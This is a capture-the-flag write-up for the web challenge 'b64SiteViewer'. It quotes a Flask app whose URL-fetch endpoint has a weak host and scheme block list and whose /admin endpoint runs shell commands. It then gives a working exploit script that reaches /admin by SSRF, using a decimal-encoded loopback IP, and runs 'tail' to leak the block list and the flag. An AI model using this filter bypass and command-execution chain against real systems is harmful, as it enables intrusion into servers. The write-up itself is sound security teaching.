 +++
title = 'b64SiteViewer'
tags = [
  "Web",
  "Python",
  "Filter bypass + RCE",
  "431 points",
  "104 solves",
  "4rUN",
]
date = 2024-10-07T22:24:02+02:00
draft = true
+++

<h1 style='text-decoration: underline;text-decoration-color: #9e8c6c;font-size: 3em;'>b64SiteViewer</h1>

**Description**: This is one of the challenges added later, but despite that it wasn't very complex, in fact the most complex part wasn't even the web part, but despite that the challenge was still really nice

## Introduction

We are faced with a very simple application in which, given a url, the base64 of the page content is given back to us, plus there is a special endpoint that allows us to execute certain commands

## Source

There are two endpoints of interest to us, the first of which is this one, which, as we can see, has several filters, especially those that do not allow us to access the localhost (very strange at first glance, you might think).

```python
# filename: app.py

@app.route('/',methods=['GET','POST'])
def home():
    if request.method=='GET':
        return render_template('home.html')
    if request.method=='POST':
        try:
            url=request.form.get('url')
            scheme=urlparse(url).scheme
            hostname=urlparse(url).hostname
            blacklist_scheme=['file','gopher','php','ftp','dict','data']
            blacklist_hostname=['127.0.0.1','localhost','0.0.0.0','::1','::ffff:127.0.0.1']
            if scheme in blacklist_scheme:
                return render_template_string('blocked scheme')
            if hostname in blacklist_hostname:
                return render_template_string('blocked host')
            t=urllib.request.urlopen(url)
            content = t.read()
            output=base64.b64encode(content)
            return (f'''base64 version of the site:
                {output[:1000]}''')
        except Exception as e:
                print(e)
                return f" An error occurred: {e} - Unable to visit this site, try some other website."


```

We are blocked from accessing the localhost mainly to prevent us from accessing the admin endpoint, which, as we can clearly see, blocks all IPs that are not 127.0.0.1

```python

@app.route('/admin')
def admin():
    remote_addr = request.remote_addr

    if remote_addr in ['127.0.0.1', 'localhost']:
        cmd=request.args.get('cmd','id')
        cmd_blacklist=['REDACTED']
        if "'" in cmd or '"' in cmd:
            return render_template_string('Command blocked')
        for i in cmd_blacklist:
            if i in cmd:
                return render_template_string('Command blocked')
        print(f"Executing: {cmd}")
        res= subprocess.run(cmd, shell=True, capture_output=True, text=True)
        return res.stdout
    else:
        return render_template_string("Don't hack me")

```

The admin endpoint also takes as parameter a CMD argument, which is a bash command that will be executed (Having first checked it with a blacklist)

## Solution

The goal is to reach /admin and execute a command to get the flag

The solution is divided into two phases

1. Bypass the filter in /
2. Bypass the blacklist in /admin (Blacklist we don't know)

### Bypass the first filter

In the endpoint, the hostname check is not really done correctly because it takes the hostname but does not check what format it is in or that it is valid etc and just does a very trivial comparison, so we just need to represent the IP with a different number system to bypass the filter.

### Bypassing the second filter

The second blacklist is much more complex, in fact initially I had many problems to understand, and especially to understand how to get the flag, as all the commands to access the ENV were blocked, but the solution as usual is much more trivial, in fact to leak the blacklist is enough to make a tail (which fortunately was not blocked) and modify the offsets with the parameters we can read part of the blacklist, Finally to get the flag is actually very simple, in fact using tail on the run. sh we can see which is the file where the environment variable of the flag is created and therefore where we can find the

### Final exploit

```python
# filename: exploit.py

#!/usr/bin/python3

import requests
import urllib.parse
import base64

BASE_URL = "https://b64siteviewer.1nf1n1ty.team/"

PAYLOAD_CMD = urllib.parse.quote("tail run???")
URL_HOOK = "http://2130706433:5000/admin?cmd=" + PAYLOAD_CMD # We use 2130706433 instead of 127.0.0.1 because is blocked by the WAF

def send_url(url):
  data = {"url": url}
  response = requests.post(BASE_URL, data=data)
  try:
    return response.text.split("base64 version of the site:")[1].strip()[2:-1], True
  except:
    return response.text, False

def main():
  print("[+] URL: ", URL_HOOK)
  res_base64,status = send_url(URL_HOOK)
  if status:
    print("[+] Result of exploit: ", base64.b64decode(res_base64).decode())
  else:
    print(f"[+] Error in the requests: {res_base64}")


if __name__ == "__main__":
  main()


# goodluck by @akiidjk

```

```stdout
$ flag: ironCTF{y0u4r3r0ck1n6k33ph4ck1n6}"
```

<p align='right'>Author: akiidjk </p>
